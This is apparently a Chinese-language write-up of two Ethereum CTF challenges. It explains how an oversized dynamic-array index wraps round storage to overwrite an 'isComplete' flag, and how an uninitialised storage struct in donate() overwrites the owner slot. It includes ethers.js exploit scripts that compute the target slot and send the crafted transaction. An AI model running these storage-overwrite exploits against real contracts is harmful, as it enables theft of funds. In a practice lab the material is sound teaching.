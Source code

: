 破解的点在于以太坊的slot 存储这里, 加入我们通过set动态数组 `map` 中的某一个值, 从而修改了 `isComplete` 这个值, 改为True, 则此题就能破解. 

这里简单介绍一下 slot的存储, 首先明白的是 `动态数组和Mapping` 并不是简单的依据其出现的位置, 比如 我们这个题目中 `isComplete` 存储的位置slot 是 0, 用`await provider.getStorageAt("0x844D8A9a3b610c578e6A3cBe3C2D4b4876D2CE81", 0)` 就能把这个值读出来, 但是如果读slot为1的值, 读来出的是 map的长度, 而map中元素存储位置的表达式为 keccak256(slot) + index . 即第一个元素, 即map[0]的存储位置是 keccak256(1) + 0, map[1]的存储位置是 keccak256(1) + 1. 那么当我们通过设置一个很大的index的时候, 就能构成上溢, 覆盖掉isComplete的值.

> 每个在以太坊虚拟机（EVM）中运行的智能合约的状态都在链上永久地存储着。这个存储可以被认为是每个智能合约都保存着一个非常大的数组，初始化为全0。数组中的每个值都是32字节宽，并且有2^256个这样的值。智能合约可以在任何位置读取或写入数值。这就是存储接口的大小。

计算 isComplete的 存储位置: $2^{256} - keccak256(bytes32(1))$ 其中 keccak256(bytes32(1)) = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6, 用$2^{256} $ 减去这个值 得出来的结果是 35707666377435648211887908874984608119992236509074197713628505308453184860938,  这时候 利用 `set` 函数, 将这个地方的值设置为1即可破解

相应的js代码

```javascript
async function main(){
    const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
    const wallet = new ethers.Wallet(process.env.PK,provider)
    const total = ethers.BigNumber.from(`2`).pow(`256`)
    const mapDataBegin = ethers.BigNumber.from(
        ethers.utils.keccak256(
          `0x0000000000000000000000000000000000000000000000000000000000000001`
        )
    )
    console.log(total.sub(mapDataBegin).toString()) 
}
```

返回, Check, 完成✅

---

###### Donation

这个题考察的类似于上面的 **存储位覆盖**, 即通过改变owner, 来调用 `withdraw` 函数, 因为一般情况下, 我们无法调用 `withdraw` 函数, 因为owner不是我们的地址. 我们只能调用donate函数. 但是这个题的bug在于 在Donate函数中, 初始化Donation结构体的过程存在问题, 因为这里并没有表明是memory还是 storage, 因此默认为这是 storage, 这就代表着, 每一次运行donate函数, 都会重新创造一个donation, 覆盖掉原来的值, 并且, 并且他的slot站位, 分别是 0, 1.  因为这个结构体有两个值, 第二个是uint256类型. 

目前我们没有运行函数的时候, slot=1 存储的是 owner这个地址, 但是当我们运行donate 函数之后, slot=1的位置 会变成 `etherAmount`. 基于此, 我们可以通过输入一个合适的 etherAmount  来使得owner等于我们自身的地址, 这样我们就可以运行 `withdraw`函数 . 由于合约在etherscan上没有验证开源, 所以这里用ethers调用. 

Donate函数的调用如下: 

```javascript
async function main(){
    const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
    const wallet = new ethers.Wallet(process.env.PK,provider)
    let ABI = ["function donate(uint256 etherAmount)"]
    let iface = new ethers.utils.Interface(ABI)
    let amount = ethers.BigNumber.from(wallet.address)
    let value = amount.div(ethers.BigNumber.from(10).pow(36))
    const tx = {
      to : "0x27f80AB68c61b62855B997bcE101C4AdE918D022",
      data: iface.encodeFunctionData("donate", [amount]),
      value: value,
    }
    const hash = await wallet.sendTransaction(tx)
    await hash.wait()
    console.log(hash.hash)
}
```
